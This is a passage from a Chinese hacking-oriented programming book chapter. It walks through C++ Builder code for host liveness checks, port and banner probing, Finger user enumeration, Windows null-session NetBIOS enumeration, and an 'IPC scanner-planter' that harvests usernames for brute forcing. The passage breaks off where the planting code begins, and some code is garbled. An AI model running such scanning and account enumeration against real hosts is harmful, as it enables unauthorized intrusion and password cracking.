这是第一步工作，任意指定一个 IP 地址(或者域名)，若该 IP 地址还没有被分配使用，那主机就不存在，再对它进行进一步探测无疑是浪费资源和时间。因此，我们首先要判断拥有该 IP 地址的主机是否连接在网络上，如果不在网上就应该停止探测活动。在 Windows 系统中，我们一般是用系统自带的控制台程序 ping.exe 来检测网络的连通性，在 C++ Builder 里，我们可以利用 NMEcho 这个控件来完成网络连通性的探测，这个控件封装了 echo 协议，通常不管是 UDP 还是 TCP 协议，echo 的默认端口都是 7。

方法：双击 NMEcho 控件，将其加入窗体中。由于我们所做的一切工作都是通过点击“探测”这个按钮来完成的，所以将 Button1 控件的 caption 属性设置成“探测”后，双击 Button1 控件，创建该控件的 OnClick 事件处理函数，代码如下：

```cpp
void __fastcall TForm1::Button1Click(TObject *Sender)
{

// 设置 NMEcho1 控件的标准属性
if(Edit2->Text=="")
NMEcho1->Host=Edit1->Text; // 主机 IP 地址，等待输入
else
NMEcho1->Host=Edit2->Text; // 主机域名，等待输入
NMEcho1->TimeOut=5000; // 设置超时值
NMEcho1->Port=7;// 端口
NMEcho1->ReportLevel=Status_Basic;
NMEcho1->Connect();// 与目标建立连接
Memo1->Clear();
for(int i=0;i<Memo1->Lines->Count;i++)
Memo1->Text = Memo1->Text+NMEcho1->Echo(Memo1->Lines->Strings[i]);
NMEcho1->Disconnect();// 断开连接
}
```

接下来便要创建 NMEcho1 控件的一些事件处理函数，如 Connect(连接成功)、ConnectionFailed(连接失败)等事件的处理，起到提示作用。代码如下：

```cpp
void __fastcall TForm1::NMEcho1ConnectionFailed(TObject *Sender)
{
ShowMessage("连接失败!"); // 当连接失败时，说明主机不连接在网络上，弹出提示对话框，并退出。
exit(0);
}

void __fastcall TForm1::NMEcho1Disconnect(TObject *Sender)
{
StatusBar1->Panels->Items[0]->Text="断开连接! ";
}

void __fastcall TForm1::NMEcho1HostResolved(TComponent *Sender)
{
StatusBar1->Panels->Items[0]->Text="未确定主机!";
}

void __fastcall TForm1::NMEcho1InvalidHost(bool &Handled)
{
//处理当用户没有填入 IP 地址(或者域名)就按了“探测”按钮,让其重新输入。
AnsiString TmpStr;
if(InputQuery("未填入主机!","请填入主机:",TmpStr))
{
NMEcho1->Host= TmpStr;//将重新输入的主机名赋给 NMEcho 控件的 Host 属性。
Handled=true;//试图重新与目标主机建立连接。
}
}
```

此时,如果主机不在网络上,程序就提示“连接失败”,并停止运行,如图 3-5 所示。



图 3-5

- 2.检测远程主机上开放了哪些服务

检查主机上开放的服务很重要,因为每一种服务对应着一个打开的端口,这样才能通过服务软件的支持对外提供服务,而很多服务的软件都存在着漏洞,精通漏洞利用方法的高手们只要了解服务软件的版本信息就知道该用什么方法来入侵了,现在我们的任务就是探测主机开了哪些服务,并且获得该服务软件的版本信息,“知己”还要“知彼”,心中有数方能对症下药。

要探测远程主机是否提供某项服务,我们就要清楚提供该项服务的端口是什么,如提供 FTP 服务的主机一般打开 21 号端口,提供 WWW 服务就打开 80 端口等等,在编程的时候一般测试服务相应的端口是否打开就行了。这里我只探测几个常用的服务(实际上你可以依葫芦画瓢地探测更多的服务,在程序里多加几行代码就可以了),这些服务以及端口是:

- 服务名称端口
  - FTP: 21
  - Telnet: 23
  - WWW: 80
  - UPnP: 5000
  - POP3: 110
  - SMTP: 25

方法:在组件栏里找到 ClientSocket 控件并双击,将其加入到窗体中去:双击“探测”按钮(Button1),接着键入以下代码:

```cpp
//======= 测试主机提供的服务 =======
if(Edit2->Text=="")
ClientSocket1->Address=Edit1->Text;// 设置 IP 地址
else
ClientSocket1->Host=Edit2->Text;// 没输入 IP 地址的话，就取域名
//------- 探测 FTP 服务 -------
if(RadioButton1->Checked)
{
if(ClientSocket1->Active)
ClientSocket1->Close();
ClientSocket1->Port=21;//FTP 服务端口，实际上我们就是探测目标主机是否打开 21 号端口。
ClientSocket1->Open();
}
//------- 探测 TELNET 服务 -------
if(RadioButton2->Checked)
{
if(ClientSocket1->Active)
ClientSocket1->Close();
ClientSocket1->Port=23;
ClientSocket1->Open();
}
//------- 探测 WWW 服务 -------
if(RadioButton3->Checked)
{
if(ClientSocket1->Active)
ClientSocket1->Close();
ClientSocket1->Port=80;
ClientSocket1->Open();
}
//------- 探测 UPnP 服务 -------
if(RadioButton4->Checked)
{
if(ClientSocket1->Active)
ClientSocket1->Close();
ClientSocket1->Port=5000;
ClientSocket1->Open();
}
//------- 探测 POP3 服务 -------
if(RadioButton5->Checked)
{
if(ClientSocket1->Active)
ClientSocket1->Close();
ClientSocket1->Port=110;
ClientSocket1->Open();
}
//------- 探测 SMTP 服务 -------
if(RadioButton6->Checked)
{
if(ClientSocket1->Active)
ClientSocket1->Close();
ClientSocket1->Port=25;
ClientSocket1->Open();
}
```

```
ClientSocket1->Port=25;
ClientSocket1->Open();
}
//========= 服务探测到此告一段落 =========
// 我只列举了 6 种常见的服务，实际上你可以依葫芦画瓢，探测所有的服务!

写到此，是否该让它牛刀小试一下？别急！不要忘了我们现在使用的是控件，程序运行时触发的事件和抛出的异常都等待着我们处理，比如，当连接成功时，就会触发 Onconnect 事件，意味着远程主机提供某项服务；当连接失败时，就会抛出“和服务器建立连接失败”的异常，意味着远程主机不提供该项服务。编程的时候，我们要将这些信息表示出来，就要建立事件处理函数和异常捕捉处理，相关代码如下：

```
void __fastcall TForm1::ClientSocket1Connect(TObject *Sender,
TCustomWinSocket *Socket)
{ // 每探测一种服务，如果成功的话，都会触发 ClientSocket 控件的 Connect 事件，现在我们便来处理这些事件。
StatusBar1->Panels->Items[0]->Text="开始探测服务";
if(ClientSocket1->Port==21)
Memo1->Text=Memo1->Text+"主机提供 FTP 服务， ";
else if(ClientSocket1->Port==23)
Memo1->Text=Memo1->Text+"主机提供 Telnet 服务， ";
else if(ClientSocket1->Port==80)
Memo1->Text=Memo1->Text+"主机提供 WWW 服务， ";
else if(ClientSocket1->Port==5000)
Memo1->Text=Memo1->Text+"主机提供 UPnP 服务， ";
else if(ClientSocket1->Port==110)
Memo1->Text=Memo1->Text+"主机提供 POP3 服务， ";
else
Memo1->Text=Memo1->Text+"主机提供 SMTP 服务， ";
}
//------- 以下便是对错误事件的处理 -------
void __fastcall TForm1::ClientSocket1Error(TObject *Sender,
TCustomWinSocket *Socket, TErrorEvent ErrorEvent, int &ErrorCode)
{
switch(ErrorEvent)
{
case eeGeneral:
StatusBar1->Panels->Items[0]->Text="未知失败";
break;
case eeSend:
StatusBar1->Panels->Items[0]->Text="XXXXXXXXXXXXXXX";
break;
case eeReceive:
StatusBar1->Panels->Items[0]->Text="读 Socket 连接时失败";
break;
case eeConnect:
if(ClientSocket1->Port==21)
Memo1->Text=Memo1->Text+"主机不提供 FTP 服务， ";
else if(ClientSocket1->Port==23)
Memo1->Text=Memo1->Text+"主机不提供 Telnet 服务， ";
else if(ClientSocket1->Port==80)
Memo1->Text=Memo1->Text+"主机不提供 WWW 服务， ";
else if(ClientSocket1->Port==5000)
Memo1->Text=Memo1->Text+"主机不提供 UPnP 服务， ";
else if(ClientSocket1->Port==110)
Memo1->Text=Memo1->Text+"主机不提供 POP3 服务， ";
else
Memo1->Text=Memo1->Text+"主机不提供 SMTP 服务， ";
StatusBar1->Panels->Items[0]->Text="找不到服务！";
break;
}
ErrorCode=0;
}
//____________________________
void __fastcall TForm1::ClientSocket1Read(TObject *Sender,
TCustomWinSocket *Socket)
{
//创建 Onread 事件处理函数，用于显示读取的信息，如果有信息返回的话就显示这提示，不返回信息的话就没有
Memo1->Text=Memo1->Text+"以下便是从主机上返回的服务信息：";
Memo1->Lines->Add(Socket->ReceiveText());//返回信息。
}
//____________________________
void __fastcall TForm1::ClientSocket1Connecting(TObject *Sender,
TCustomWinSocket *Socket)
{
//创建 Onconnecting 函数，用于提示正在探测服务
StatusBar1->Panels->Items[0]->Text="正在探测服务...";
}
//____________________________
void __fastcall TForm1::ClientSocket1Disconnect(TObject *Sender,
TCustomWinSocket *Socket)
{
//创建 OnDisconnect 事件处理函数，用于提示服务探测完毕
StatusBar1->Panels->Items[0]->Text="服务探测完毕";
}
//____________________________
```

好了，现在可以牛刀小试了，我们以www.51.net 为例子进行探测。

+   (1) 探测FTP服务
填入域名，选中需要探测的服务“FTP”，点击“探测”，将在窗体右边的空白框返回服务版本信息，如图3-6所示。
由此可知，www.51.net 是开放FTP服务的，我们再来探测其他几个常见服务看看。
(2) 探测POP3服务，如图3-7所示。
(3) 探测SMTP服务，如图3-8所示。
(4) 当远程主机不提供所探测的服务时，程序会提示“不提供某某项服务”，如对www.51.net进行telnet服务探测，出现如图3-9所示的探测结果。

## 第3章 扫描器编程实现









相信大家都很信任流光吧，可以看看用流光扫描的结果，如图3-10所示，和我们程序探测的结果是一样的哦。



### 3.用户探测

接下来便是用户探测了。这一步同样很重要，获得用户名称我们就可以进行暴力破解了，如果用户粗心大意设置了跟用户名一模一样的密码的话，那无疑是将自己的秘密拱手相让给别人。如果你看过Coolfire的教程就会知道泄露用户信息有多大的危害了，所以一般的主机都不会提供这项服务的，但网络上仍然有许多的机器开着Finger，给人以可乘之机，故这里还是加入这个功能。

要完成用户账号的查询，我们可以使用NMFinger控件，它封装了Finger协议，Finger协议是一个相对比较简单的协议，它可以让用户从主机上检索某一用户的信息。

下面来看看Finger协议的简介：Finger协议是一个老旧的并且广泛应用于UNIX系统上的检查用户登陆文件 (/etc/passwd) 的工具。它可以使用户找到某人的登陆名称 (电子邮件地址)、他的专用名称，给出你知道的、对应你应用的计算机。Finger 协议也告诉用户是否当前被注册在目标机上。虽然 Finger 和 UNIX 的联系比较密切，但客户也允许从其他系统类型中运行 Finger协议的查询。

好，接着来。双击 NMFinger 控件，将其加到窗体中去；再双击“探测”按钮 (Button1)，键入以下代码：

```
//========= 查询主机上的特定用户 =========
NMFinger1->ReportLevel= Status_Basic;
NMFinger1->TimeOut=50000;设置超时值
if(Edit2->Text=="")
NMFinger1->Host=Edit1->Text; //主机IP地址，等待输入
else
NMFinger1->Host=Edit2->Text; //主机域名，等待输入
NMFinger1->Port=79;//设置默认端口为79
NMFinger1->User= Edit3->Text;
//如果要查询某一个已知的、特定的用户，如root，可以在Edit3中输入
Memo1->Text=NMFinger1->FingerStr;
//调用 FingerStr 属性，就可以完成与服务器的连接、查询用户帐号等工作，//并将FingerStr赋给
Memo1 中的 Text 属性，用于在右边的那个空白框里显示用 // 户信息。
```

还要加入 NMFinger 控件的一些处理函数，完善一下程序，代码如下：

```
void __fastcall TForm1::NMFinger1Connect(TObject *Sender)
{
StatusBar1->Panels->Items[0]->Text="正在获取用户信息...";
}
void __fastcall TForm1::NMFinger1InvalidHost(bool &Handled)
{
AnsiString NewHost;
if(InputQuery("主机不正确","请选择另外一个主机",NewHost))
{ //当没有填入主机IP地址或者域名就点了“探测”按钮时，弹出提示框，要求用户重新输入主机IP或
域名，执行下面两句将重新设置NMFinger1控件的Host属性，并把Handled属性值设置为true，企图与
远程主机重新建立连接。
NMFinger1->Host=NewHost;
Edit2->Text=NewHost;
Handled=true;
}
}
void __fastcall TForm1::NMFinger1Status(TComponent *Sender,
AnsiString Status)
{
if(StatusBar1!=0)
StatusBar1->Panels->Items[0]->Text=Status;
}
void __fastcall TForm1::NMFinger1Disconnect(TObject *Sender)
{
if(StatusBar1!=0)
StatusBar1->Panels->Items[0]->Text="用户探测已结束";
}
void __fastcall TForm1::NMFinger1ConnectionFailed(TObject *Sender)
{
ShowMessage("查询用户失败! "); // 当连接失败时 (触发 ConnectionFailed 事件时), 弹出对话框提示。
}
```

至此，整个程序的编写已经结束了，大家可以编译、运行看看结果了。文中的截图是笔者在写本文的时候随手做的例子的样子，功能不全，BUG挺多的。

最后，我还想说一点，对于远程主机的探测远远不止这些，这个程序只是一个例子，目的是想说一说如何通过编程来实现对目标主机进行简单探测而已，并不是教大家如何去编扫描器。由于时间仓促，只是糊弄了一下，你可以加入更好的代码，让程序完成更加强大的功能。

### 3.6 探测Windows主机的NetBIOS信息

大家一提到Windows 2000/XP系统的安全性，很快就会想到NULL Session（空会话）。这可以算是微软安置的一个后门，很多简单而容易的攻击都是基于空会话而实现的。在此，我们不讨论如何攻陷一台Windows 2000/XP系统，而是谈谈在建立空会话之后，我们可以得到远程主机的哪些NetBIOS信息（由于本文是针对Windows 2000/XP系统，所以使用了UNICODE编码）。

#### 一、NetBIOS信息

在我们和远程Windows 2000/XP主机建立了空会话之后，我们就有权枚举系统里的各项NetBIOS信息了。当然，在某些选项中需要较高的权利，不过我们只执行那些匿名用户可以获得的绝大多数系统信息。

- 时间：探测远程主机的当前日期和时间信息。它会返回一个数据结构，包括年、月、日、星期、时、分、秒等，不过得到的是GMT标准时间，对于我们来说应该换算为GMT+8:00。由此可以判断出主机所在的时区信息。
- 操作系统指纹[Level 101]：探测远程主机的操作系统指纹信息。一共有3种级别的探测（100，101，102），我们使用的是101级，它会返回一个数据结构，可以获取远程主机的平台标识、服务器名称、操作系统的主次版本（Windows 2000为5.0,WindowsXP为5.1,而最新操作系统Longhorn的版本为6.0）、服务器类型（每台主机可能同时包含多种类型信息）和注释。
- 共享列表[Level 1]：探测远程主机的共享列表。我们可以获得一个数据结构指针，枚举远程主机的所有共享信息（隐藏的共享列表在内）。其中包括共享名称，类型与备注。类型可分为磁盘驱动器，打印队列，通讯设备，进程间通讯与特殊设备。
- 用户列表[Level 1]：探测远程主机的用户列表，返回一个数据结构指针，枚举所有用户信息。可获取用户名，全名，用户标识符，说明与标识信息。标识信息可以探测用户的访问权限。
- 本地组列表[Level 1]：探测远程主机的本地组列表信息。枚举所有本地组信息，包含本地组名称和注释信息。
- 组列表[Level 3]：探测远程主机的组列表信息。枚举所有的组信息，包括组名称，注释，组标识符与属性。在此基础上，我们可以枚举组内的所有用户信息。
- 组用户列表[Level 0]：探测特定组内的用户信息。我们可以获得组内所有用户的名称。当我门获得了所有的用户列表，下一步就应该很清楚了，那就是挂一个字典进行破解。
- 传输协议列表[Level 0]：探测远程主机的传输协议信息，枚举所有的传输列表。可以获得每个传输协议的名称，地址，网络地址和当前与本传输协议连接的用户数目。
- 会话列表[Level 10]：探测远程主机的当前会话列表。枚举每个会话的相关信息，包括客户端主机的名称，当前用户的名称，活动时间和空闲时间。这可以帮助我们了解远程主机用户的喜好等等。

#### 二、主要函数与相关数据结构分析

+   1. 建立空会话

```
WNetAddConnection2(&nr,username,password,0);
//nr为NETRESOURCE数据结构的对象;
//username为建立空会话的用户名，在此将用户名设置为NULL;
//password为登陆密码，在此将密码设置为NULL。
```

+   2. 撤消空会话

```
WNetCancelConnection2(ipc,0,TRUE);
//ipc为TCHAR的指针，我们可以这样获得:
//swprintf(ipc,_T("\%s\ipc$"),argv[1]),argv[1]为主机名或地址。
```

+   3. 探测主机时间

```
nStatus=NetRemoteTOD(server,(PBYTE*)&pBuf);
//参数server为主机的名称或地址;
//pBuf为TIME_OF_DAY_INFO数据结构的指针;
//nStatus为NET_API_STATUS成员。
```

+   4. 探测操作系统指纹

```
NetServerGetInfo(server,dwLevel,(PBYTE *)&pBuf);
//dwLevel为等级数，我们选择的是101级;
//pBuf是SERVER_INFO_101数据结构的指针。
```

+   5. 探测共享列表

```
NetShareEnum(server,dwLevel,(PBYTE *)&pBuf,MAX_PREFERRED_LENGTH,&er,&tr,
&resume);
//dwLevel的等级数为1级;
//pBuf是SHARE_INFO_1数据结构的指针;
//MAX_PREFERRED_LENGTH指定返回数据的长度;
//er指明返回的实际可以枚举的成员数目;
//tr返回所有的成员数目;
//resume用于继续进行共享搜索。
```

+   6. 探测用户列表

```
NetQueryDisplayInformation(server,dwLevel,i,100,0xFFFFFFFF,&dwRec,(PVOID *)&pBuf);
//dwLevel的等级数为1级;
//i为枚举的索引;
//dwRec返回获取的信息数目;
//pBuf为NET_DISPLAY_USER数据结构的指针。
```

+   7. 探测本地组列表

```
NetLocalGroupEnum(server,dwLevel,(PBYTE *)&pBuf,-1,&er,&tr,&resume);
//dwLevel的等级是1;
//pBuf返回LOCALGROUP_INFO_1数据结构的指针。
```

+   8. 探测组列表

```
NetQueryDisplayInformation(server,dwLevel,i,100,0xFFFFFFFF,&dwRec,(PVOID*)&pGBuf);
//dwLevel的等级为3;
//pGBuf返回NET_DISPLAY_GROUP的数据结构指针。
```

+   9. 探测组内的用户

```
NetGroupGetUsers(server,pGBuffer->grpi3_name,0,(PBYTE *)&pUBuf, MAX_PREFERRED_LENGTH,&er,&tr,&resume);
//pGBuffer->grpi3_name为组的名称;
//pUBuf返回GROUP_USERS_INFO_0数据结构的指针。
```

+   10. 探测传输协议列表

```
NetServerTransportEnum(server,dwLevel,(PBYTE *)&pBuf,MAX_PREFERRED_LENGTH,&er, &tr,&resume);
//dwLevel的等级为0级;
//pBuf返回SERVER_TRANSPORT_INFO_0数据结构的指针。
```

+   11. 探测会话列表

```
NetSessionEnum(server,pszClient,pszUser,dwLevel,(PBYTE *)&pBuf, MAX_PREFERRED_LENGTH,&er,&tr,&resume);
//pszClient指定客户的地址;
//pszUser指定用户名;
//dwLevel的等级是10级;
//pBuf返回SESSION_INFO_10数据结构的指针。
```

+   12. 释放内存

```
NetApiBufferFree(pBuf);
//释放由系统分配的内存空间。
```

#### 三、 如何防止NetBIOS信息的泄露

我们可以安装防火墙来禁止空会话的建立，或者在网络连接属性里禁用TCP/IP上的NetBIOS。当然，也可以在IP安全策略里禁用445/TCP端口实现。只要空会话不能成功建立，那就很难获得上面提到的各项信息了。

#### 四、 附源代码



### 3.7 代码直击IPC扫描种植器

#### 一、 扫描部分：

IPC扫描器的速度很慢（因为几个函数的延迟），所以必须要用多线程来提高速度。文中的代码都是在BCB5（Borland C++ Builder 5.0）下编写的，下面讨论的是线程中的具体代码：

我们知道，IPC指纹（信息）大多是建立在空连接或者连接上的，所以我们有必要先来了解如下代码：
```

```markdown
```
AnsiString getfuncip="127.0.0.1";
AnsiString ipp=""+getfuncip +" \\ipc$";//此处是地址，注意杠的个数
NETRESOURCE nr;
nr.lpLocalName=NULL;
nr.lpProvider=NULL;
nr.dwType=RESOURCETYPE_ANY;
nr.lpRemoteName=ipp.c_str();
DWORD ret=WNetAddConnection2(&nr,"","Administrator",0);//建立IPC连接，
//当然你也可以建立空连接，就把那个Admin留空
if(ret!=ERROR_SUCCESS)
{ //不能连接，这里处理}
```

上面是建立连接的代码，只有建立连接后才能继续获得用户名（当然，上面如果用的是admin连接，那么就可以直接传文件了），接下来看看获得用户的代码：

```
WCHAR IP[50];
StringToWideChar(getfuncip,IP,50);
//此处是ip，你可以用一个string变量承接转换过来
PNET_DISPLAY_USER pBuf2,pBuffer2;
DWORD dwRec;
DWORD i=0;
DWORD lerror;
DWORD dwLevel=1;
TStrings *sting=new TStringList();//用来承载多个用户
NET_API_STATUS nStatus;
nStatus=NetQueryDisplayInformation(IP,dwLevel,i,100,0xFFFFFFFF,&dwRec,
(PVOID *)&pBuf2);//这里开始获取用户了
if((nStatus==ERROR_SUCCESS) || (nStatus==ERROR_MORE_DATA))
{
pBuffer2=pBuf2;
sting->Clear();//清空用户库
for(;dwRec>0;dwRec--)//循环添加多个用户记录
{
sting->Add(pBuffer2->usri1_name);//添加用户，然后指向下一个记录
i=pBuffer2->usri1_next_index;
pBuffer2++;
}
}
else
{ //不能获取用户，出错处理}
```

#### 二、种植部分

上部分的代码一次性地获取了所有的用户资料，并将其存放在string变量里面。下面就可以对这些用户实施暴力破解什么的，看看代码（比较多，耐心耐心）：

```
